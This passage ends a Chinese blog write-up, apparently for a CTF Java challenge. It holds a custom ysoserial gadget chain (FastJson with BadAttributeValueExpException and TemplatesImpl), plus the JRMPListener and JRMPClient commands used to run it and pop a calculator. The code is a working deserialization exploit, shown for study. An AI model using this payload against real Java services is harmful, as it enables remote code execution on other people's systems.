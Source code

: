 ```java
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.JavaVersion;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;

public class FastJson extends PayloadRunner implements ObjectPayload<BadAttributeValueExpException> {
    @Override
    public BadAttributeValueExpException getObject(String command) throws Exception {
        Object templatesImpl = Gadgets.createTemplatesImpl(command);
        JSONObject jo = new JSONObject();
        jo.put("oops",templatesImpl);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        Reflections.setAccessible(valfield);
        valfield.set(val, jo);
        return val;
    }
    public static boolean isApplicableJavaVersion() {
        return JavaVersion.isBadAttrValExcReadObj();
    }
}
```
需要重新install一下生成 ysoserial ，最后监听
```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 FastJson "calc"
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient_bypass_jep_jdk241 "127.0.0.1:1099"|base64 -w0
```
![](https://img-blog.csdnimg.cn/61559c218e9f4352900198ffb9f84df8.png)

成功反弹计算器

参考：
[Java JRMP攻击](https://www.cnblogs.com/zpchcbd/p/14934168.html)
[Java安全之ysoserial-JRMP模块分析（一）](https://www.anquanke.com/post/id/228918)
[网鼎杯2022之java](https://dem0dem0.top/2022/09/13/%E7%BD%91%E9%BC%8E%E6%9D%AF2022%E4%B9%8Bjava/)
